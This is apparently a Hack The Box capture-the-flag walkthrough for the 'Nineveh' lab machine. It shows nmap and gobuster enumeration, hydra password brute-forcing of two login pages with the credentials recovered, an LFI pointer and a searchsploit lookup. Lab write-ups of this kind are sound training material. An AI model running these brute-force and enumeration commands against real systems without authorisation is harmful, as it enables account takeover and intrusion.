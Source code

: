 # Hack the Box - Nineveh


## NMAP
```CSS
▶ nmap -Pn -sS -p- 10.10.10.43 -T4 --min-rate 1000 -oN surface.nmap

Nmap scan report for 10.10.10.43
Host is up (0.19s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT    STATE SERVICE
80/tcp  open  http
443/tcp open  https
```

```CSS
▶ nmap -sC -sV -p 80,443 10.10.10.43 -oN deep.nmap

Nmap scan report for 10.10.10.43
Host is up (0.18s latency).

PORT    STATE SERVICE  VERSION
80/tcp  open  http     Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
443/tcp open  ssl/http Apache httpd 2.4.18 ((Ubuntu))
| ssl-cert: Subject: commonName=nineveh.htb/organizationName=HackTheBox Ltd/stateOrProvinceName=Athens/countryName=GR
| Not valid before: 2017-07-01T15:03:30
|_Not valid after:  2018-07-01T15:03:30
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
```

---

## HTTP
![image](https://user-images.githubusercontent.com/83878909/234479646-7b054e0f-a213-479e-9a80-3d63bdcbb1ef.png)

---

## HTTPS/SSL
![image](https://user-images.githubusercontent.com/83878909/234479727-ccec4c69-ee5a-4d14-b0ac-20744987d630.png)

## SSL Certificate Information
```CSS
▶ openssl s_client -connect nineveh.htb:443
```
![image](https://user-images.githubusercontent.com/83878909/234488440-5c959a74-496a-48b6-87c9-8ff1ddb0ad47.png)

---

## Content Discovery
  - Directory brute-force - `http://nineveh.htb`
```CSS
▶ gobuster dir -u nineveh.htb -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
```
![image](https://user-images.githubusercontent.com/83878909/234485858-a451bd36-d418-447e-924a-bdecc2cd8c61.png)
![image](https://user-images.githubusercontent.com/83878909/234485999-3f3e259c-2a1d-420a-ac1f-4a41b74b2480.png)

  - Directory brute-force - `https://nineveh.htb`
```CSS
▶ gobuster dir -u https://nineveh.htb -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 --no-tls-validation
```
![image](https://user-images.githubusercontent.com/83878909/234487716-3c05a713-9514-4b7e-848f-5686b58b320b.png)
![image](https://user-images.githubusercontent.com/83878909/234484978-13d104de-2e36-46c6-8f17-fbb217cf826e.png)

---

## Brute-force Credentials
  - Page: `http://nineveh.htb/department/login.php`
```CSS
▶ hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.43 http-post-form "/department/login.php:username=^USER^&password=^PASS^:Invalid" -t 60
```
![image](https://user-images.githubusercontent.com/83878909/234488924-25dd7cb9-7e32-4297-a545-3f04f699c6f7.png)
```CSS
Credentials: admin:1q2w3e4r5t
```

  - Page: `https://nineveh.htb/db/index.php`
```CSS
▶ hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.43 https-post-form "/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect" -t 60
```
![image](https://user-images.githubusercontent.com/83878909/234490465-5b8c57b0-03c2-4385-b2cc-a8bff186fdd9.png)
```CSS
Credentials: admin:password123
```
---
  - Home: `http://nineveh.htb/department/manage.php`
![image](https://user-images.githubusercontent.com/83878909/234503125-7b01ee2d-05ab-4a4d-99c3-34203400bef2.png)

  - Notes: `http://nineveh.htb/department/manage.php?notes=files/ninevehNotes.txt`
![image](https://user-images.githubusercontent.com/83878909/234503429-75a2e5b6-f739-4093-b2c2-b137aea0dd91.png)

---

  - Dashboard: `https://nineveh.htb/db/index.php`
![image](https://user-images.githubusercontent.com/83878909/234558464-b656bd0d-0942-4420-8e46-bbfbb833705f.png)

---

## Local File Inclusion(LFI)
  - URL: `http://nineveh.htb/department/manage.php?notes=files/ninevehNotes.txt`
![image](https://user-images.githubusercontent.com/83878909/234561596-3375a5a2-0015-448b-807c-2a5fb42aca58.png)
![image](https://user-images.githubusercontent.com/83878909/234561294-8c2c1a9c-db43-4dc6-baa3-9c53d31d8287.png)
![image](https://user-images.githubusercontent.com/83878909/234562592-182e614e-0287-4ba9-b0ff-6e1f9c626744.png)

## Searchsploit
```CSS
▶ searchsploit phpLiteAdmin
```
![image](https://user-images.githubusercontent.com/83878909/234558865-27ea3b54-64e7-4c1a-8ab4-527e8278b051.png)
![image](https://user-images.githubusercontent.com/83878909/234563586-f21678b1-c036-4f66-81b4-31cf99ad8690.png)
![image](https://user-images.githubusercontent.com/83878909/234564279-94bf032a-8eec-4587-a5ca-57939c4c2cc6.png)
![image](https://user-images.githubusercontent.com/83878909/234564484-13d373a3-d688-4fd8-b547-ef36d506ad93.png)
![image](https://user-images.githubusercontent.com/83878909/234564717-f30a4d82-67af-4659-a772-c09fcdb3fffc.png)
![image](https://user-images.githubusercontent.com/83878909/234565248-8cece311-7f2c-4c84-b335-e9eec6a6ff82.png)



